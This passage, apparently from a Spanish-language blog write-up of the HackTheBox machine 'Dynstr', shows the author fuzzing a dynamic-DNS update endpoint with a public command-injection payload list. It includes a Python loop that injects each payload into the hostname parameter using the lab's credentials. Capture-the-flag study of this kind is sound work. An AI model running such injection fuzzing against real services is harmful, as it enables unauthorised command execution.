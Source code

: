 * [command-injection-payload-list](https://github.com/payloadbox/command-injection-payload-list).

Tomamos toda la parte de **Unix** y la pegamos en el archivo `payloads.txt`, lo siguiente simplemente es ejecutar y ver si cambia algo en nuestro output:

```bash
❱ python3 fuzz_myip.py 
```

![352bash_scripting_fuzzingMYIP_fail](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/dynstr/352bash_scripting_fuzzingMYIP_fail.png)

Pero en todas las peticiones obtenemos el mismo output, la IP no cambia si no es con el respectivo formato (`N.N.N.N`), pensando en que hacer se me dio por probar lo mismo, pero contra el campo `hostname`, vaya sorpresa e.e

```py
...
# -- Matrashaaaa
for pos, payload in enumerate(payloads_file):
    payload = payload.strip('\n')
    print(Color.GREEN + "http://dyna.htb/nic/update?hostname=%s.no-ip.htb&myip=10.10.14.146" % (payload) + Color.END)

    data_get = {
        "hostname" : payload + "." + "no-ip.htb",
        "myip" : "10.10.14.146"
    }
    r = requests.get(URL + '/nic/update', params=data_get, auth=('dynadns','sndanyd'))
    print(r.text)
```

Recordemos que pusimos `hola.no-ip.htb` y nos funcionó, ya que todo lo que estuviera después del `hola`, acá hacemos lo mismo, para que nos permita jugar con el dominio `no, pero además ver si en vez de `hola` se nos puede colar una inyección de comandos, ejecutamos el script:

👀 

```bash
❱ python3 fuzz_myip.py 
```

En los últimos payloads vemos un output distinto al de la mayoría:

![352bash_scripting_fuzzingHOSTNAME_weirdOutput](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/dynstr/352bash_scripting_fuzzingHOSTNAME_weirdOutput.png)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/dynstr/352bash_scripting_fuzzingHOSTNAME_weirdOutput2.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Vemos 4 payloads que causaron algún tipo de ¿conflicto? O bueno, causaron algo :P Las 3 primeras son interesantes porque parece que se ejecutan, pero la última nos da un **good**, es un buen punto de partida para centrarnos en probar cositas con ellas (:

...

## Obtenemos <u>RCE</u> tryhardeando con el <u>hostname</u> [📌](#dns-api-rce) {#dns-api-rce}
